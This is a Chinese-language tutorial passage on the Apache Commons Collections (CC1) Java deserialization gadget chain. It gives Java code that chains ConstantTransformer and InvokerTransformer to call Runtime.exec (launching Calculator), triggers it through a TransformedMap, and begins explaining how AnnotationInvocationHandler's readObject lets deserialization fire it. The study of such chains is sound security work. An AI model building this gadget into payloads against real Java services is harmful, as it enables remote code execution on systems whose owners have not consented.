 #### 理解demo

```java
Transformer[] transformers = new Transformer[]{ 
  				new ConstantTransformer(Runtime.getRuntime()),
          new InvokerTransformer("exec",
                     new Class[]{String.class},
                     new Object[{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),};

Transformer transformerChain = new ChainedTransformer(transformers);


```

创建了一个ChainedTransformer，它是一个链式调用，当被调用的时候，会按顺序执行里面的两个Transformer：

第一个是ConstantTransformer，可以用来返回一个Runtime对象，这个的输出丢给后面的InvokerTransformer作为输入；

第二个是InvokerTransformer，可以用来执行Runtime对象的exec方法，并且传入了打开计算器命令的参数。

相当于：`Runtime.getRuntime().exec("执行命令")`



然后，我们只是注册了一个transformers，还没有调用。

我们要将这个Transformer绑定到一个TransformedMap，并且当这个Map被添加新元素的时候，Transformer才会被调用，即：

```java
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxxx");


```







### 继续构造gadget

注意jdk版本，据说这个最高打到8u71。



我们前面已经知道Common Collections这个包中有几个类可以用来构造rce，并且在自己的代码中通过执行`outerMap.put("test", "xxxx");`实现了rce利用。

但是，**在真实场景中，并没有人帮我们执行这个函数。所以我们现在要开始寻找，有没有哪个类，在它的readObject逻辑中会触发这个动作（给Map新增元素）。**

这个类就是`sun.reflect.annotation.AnnotationInvocationHandler`，这是一个java的原生类





不建议直接看反编译的.class代码，可以github打开jdk代码**，然后在gihub后面添加`1s`打开vscode提供的在线编辑器**

Github1s.com

https://github.com/openjdk/jdk
